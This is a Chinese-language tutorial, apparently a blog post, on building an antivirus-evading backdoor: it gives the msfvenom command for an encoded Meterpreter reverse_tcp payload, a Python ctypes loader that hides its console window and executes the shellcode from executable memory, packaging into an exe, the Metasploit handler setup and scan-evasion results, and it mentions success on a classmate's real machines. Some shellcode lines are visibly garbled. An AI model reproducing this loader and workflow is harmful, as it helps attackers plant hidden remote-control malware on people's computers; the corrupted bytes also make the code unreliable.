# Python加密shellcode免杀

[TOC]

# 前言

---

# 前提准备

**环境准备：**

- Windows7 32 位系统
  - Shellcode 使用 kali linux Metasploit 生成 shellcode

**Windows7 需要安装的软件：**

- Python2.7
- pip install pyinstaller
- pip install pywin32
- VCForPython27.msi(微软官网可以下载)

---

# 制作流程

## 1. 查IP地址

查看自己的使用监听MSF的IP地址 10.1.5.10  


---

## 2. 生成shellcode

红色字体需要修改成自己的ip地址和需要监听的端口号。

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp_uuid LPORT=``x`` LHOST=``x.x.x.x`` -e   x86/shikata_ga_nai -i 11 -f py -o samny.py
```



---

## 3. 替换shellcode

```python
   buf= b""buf =  b""
   buf += b"\xb8\x99\xfb\x4d\xa7\xd9\xea\xd9\x74\x24\xf4\x5f\x23"
buf += b"\xc9\xb1\xa2\x83\xef\xfc\x31\x47\x0e\x03\xde\xf5\xaf"
************省略内容，替换内容************
```

```python
from ctypes import *

import ctypes
buf =  b""
buf += b"\xb8\x99\xfb\x4d\xa7\xd9\xea\xd9\x74\x24\xf4\x5f\x23"
buf += b"\xc9\xb1\xa2\x83\xef\xfc\x31\x47\x0e\x03\xde\xf5\xaf"
buf += b"\x52\x3b\xc4\xe9\xe9\x9f\x23\x53\xac\x06\x9c\x45\x85"
buf += b"\x89\xea\x37\xbe\x6a\x2e\x33\xf0\x1e\xbb\x3f\x80\x13"
buf += b"\x76\xeb\x89\x4d\x9a\x48\xf1\xb3\x91\xcb\x32\x45\x2e"
buf += b"\x4b\xdc\x96\x67\x9f\xb6\x14\x0a\x31\x26\x1a\xb8\xbd"
buf += b"\xc1\xf5\x5d\x20\xcf\x4c\x95\x41\x7f\x19\xd2\x76\x96"
buf += b"\x98\x6c\x89\x5b\x10\xb4\xfd\xf5\x2f\x4c\x78\x2f\xa0"
buf += b"\x94\x1a\xbe\x0c\xbb\x5b\xfc\xeb\x81\x29\x54\x6e\x0c"
buf += b"\x16\x91\xca\xdd\x71\x58\x89\x2f\xf3\x08\x08\x9e\xb8"
buf += b"\xe2\xf5\x27\xb6\xb9\x31\x3c\xa7\x94\x90\x8c\xc6\x9d"
buf += b"\x57\xd1\x11\x70\xed\x65\xf1\x3a\xc4\x15\x43\xba\x03"
buf += b"\x97\xae\x81\x06\x77\x3e\xb0\xd0\xae\x99\x63\x1e\x3d"
buf += b"\x80\x33\xac\x8b\xbb\x56\xb5\xc1\x4d\x5d\xab\x20\x34"
buf += b"\xcd\x6c\x70\x0d\x85\x7b\xc0\x5d\xcc\xf6\x2d\xc0\x2b"
buf += b"\x34\xa4\xc0\x0b\x1d\xee\xd8\xa3\xcb\x6d\xbe\x43\x37"
buf += b"\x1d\xb6\x21\xa3\x2da\x20\x216\x89\x51\x2f\x01\x11\x97"
buf += b"\x09\xbb\x54\x12e\xe8\x13\xeb\x02\x12\x01\x0f\xc1\x4e"
buf += b"\xf3\xe4\x4w22\x1a\xa2\x38\x11\xb23\x4c\x76\x47\x11\x4e"
buf += b"\xc8\xc6\x8swd\xed\xbc\x08\x9c\x65\xf8\x38\xf7\x00\x34"
buf += b"\x34\x4e\xef\ax83\xqdsaff\x97\x8c\xde\x0c\x0e\xa4\xa4\x01"
buf += b"\xc5\xd3\x61\x79\x83\qwx07\xec\x81\x04\x49\x8e\x9e\x10"
buf += b"\xe8\xce\x64\x49\xb9\xc8\xc1\xdf\x4d\x7b\x9e\x6d\x94"
buf += b"\x12\x50\xfc\x49\x8c\x17\x8a\x57\x69\xab\x2d\x85\x98"
buf += b"\x52\x37\x11\xc9\x9f\x60\xed\x17\x31\x16\x4b\xae\x0e"
buf += b"\xd4\x23\xef\x71\xd3\xc8\x35\x4b\x4w3\x3e\x7c\x39\x7c"
buf += b"\x68\x60\x5b\x23\xc8\xab\x45\xa5\xe7\xef\x39\xd7\xad"
buf += b"\xa6\xe7\x36\x6e\xa7\xef\xba\x01\x2e\x76\xa3\x0a\x79"
buf += b"\xc5\xb7\x3d\xfa\xd1\xf7\xc7\x40\x30\x50\x95\x30\xdb"
buf += b"\x13\x09\x91\x2f\x76\x91\x61\x9b\xea\x20\x5a\x0d\x5b"
buf += b"\xa6\x96\xba\xac\xaf\x28\x1e\x2c\x33\x99\x8f\x00\x1d"
buf += b"\x79\xec\x8a\x9b\xaa\xc4\xe8\x23\x50\xe6\xa9\xc8\xeb"
buf += b"\x2b\x48\xc0\xe4\xfc\x93\x66\x9a\x44\xd4\xe3\xf7\x72"
buf += b"\xdd\x26\x45\xb1\xec\x7c\xaf\x65\xd6\xf8\x53\xd0\xa8"
buf += b"\x16\x9e\x39\xc6\x6c\xc1\x66\xf7\x28\xc7\x11\x52\xc9"
buf += b"\xb9\x2e\xce\xec\x6c\xae\xe7\x55\x72\x89\xc0\x12\x92"
buf += b"\x9b\x33\x0a\x1e\xe6\xc0\x91\xb6\x68\xf6\x26\xa5\xaa"
buf += b"\x5d\xca\xd4\x60\x1d\x70\xde\xd8\x13\xad\x9c\xea\xa3"
buf += b"\xe4\xbb\xdb\x3c\x27\x27\x50\xf9\x07\xe3\xa8\x04\xb5"
buf += b"\xe9\xff\xd5\x5a\x51\x69\x33\x99\x5b\x27\x85\xcd\x36"
buf += b"\x35\x22\xa9\x4f\xc6\x0d\xed\xf3\x40\xaa\x7b\x8e\xdb"
buf += b"\xd8\xc9\x2b\x19\x78\x5a\x91\x61\x63\xf0\xae\x05\xcd"
buf += b"\x28\xeb\x35\x15\x12\x67\x04\xb1\x93\xe8\x34\xc1\xc5"
buf += b"\x21\xbf\x47\xb4\x15\x22\xbe\xb0\x0f\x43\x9d\xc4\x11"
buf += b"\xe8\x92\x97\xfb\x75\xc7\x23\x70\xf3\x86\xcf\x55\xc4"
buf += b"\xc0\xa6\x1a\x10\xab\xe9\xc1\xee\xf9\x13\x9c\xa0\xf9"
buf += b"\xea\x1c\xaa\xasd1c\xbe\x6b\xe2\x8c\x91\x30\xbf\x20\x05"
buf += b"\x3a\x82\x0f\x43\xe4\x4c\qwx54\x23\x26\xe4\x97\xc8\x5a"
buf += b"\xd8\x6d\x5a\x74\x20\x51\x1c\xb9\x42\x3a\x2d\x96\xdd"
buf += b"\x23\x3f\x72\xd6\x31\xe8\x67\x9c\xc8\xe5\x0b\x5e\xd7"
buf += b"\xbd\xdf\x97\x96\x01\x44\x19\x78\x16\xd1\x45\xe7\xcd"
buf += b"\x18\x1c\xb6\x84\xa8\x06\x3e\xe1"

PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")

    memmove(addr, buf, size)

    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   

if whnd != 0:
       if 666==666:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)

memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```

---

## 4. 制作后门程序

图标可以自己选择替换  


---

## 5. 测试

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp_uuid
set lhost 192.168.23.129
set lport 8888
set EnableStageEncoding true
set StageEncoder x86/fnstenv_mov
```



测试系统版本如下：

- Windows 7(32位和64位)
- Windows server 8
- Windows 10 1903
- 真实环境也测试成功，利用同学的电脑Windows 7和Windows 10均能成功。  
    
  

---

# 在线查杀结果

  


  
  


<http://r.virscan.org/language/zh-cn/report/5587ae4565ebc058d2b7846eeb12b27a>

---

# 意料之外的坑

1. 环境不对，最后我特意去下载Windows 7（32位）镜像安装一个虚拟机才成功。本机缺少某种环境，但是始终找不到，最后无奈之举才得以如此。  
   
2. 最新版的kali无法弹shell，这一步卡了我很久很久，最后我用[Pentestbox](https://blog.csdn.net/sun1318578251/article/details/90733372)里面的msf监听端口才得以成功。

  


---

# 参考

<https://blog.csdn.net/qq_41770175/article/details/98475696>  
<https://secquan.org/Discuss/906>  
<https://www.cnblogs.com/backlion/p/6785870.html>

---

# 声明

本文中提到的shellcode仅供研究学习使用，请遵守《网络安全法》等相关法律法规。
